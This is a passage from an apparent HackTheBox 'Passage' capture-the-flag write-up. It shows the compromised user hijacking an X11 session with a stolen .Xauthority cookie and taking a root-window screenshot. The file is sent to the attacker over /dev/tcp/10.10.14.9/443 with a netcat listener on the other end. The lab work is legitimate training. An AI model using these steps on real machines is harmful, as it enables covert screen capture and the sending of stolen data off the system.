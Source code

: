 To use the cookie, I need to set the environment variable

```bash
nadav@passage:~$ export XAUTHORITY=.Xauthority
```

Take a screenshot

```bash
nadav@passage:~$ xwd -root -screen -silent -display :0 > screenshot.xwd
```

Transfer the file

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage]
└─$ nc -lvnp 443 > loot/screenshot.xwd
```

```bash
nadav@passage:~$ cat screenshot.xwd > /dev/tcp/10.10.14.9/443
```

Unfortunately, the screenshot was a black screen

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage/loot]
└─$ convert screenshot.xwd screenshot.png

┌──(bravosec㉿fsociety)-[~/htb/Passage/loot]
└─$ xdg-open screenshot.png
```

![](/assets/obsidian/a8e3d7492ce8bdcdb8349efe8ae6d0e3.png)
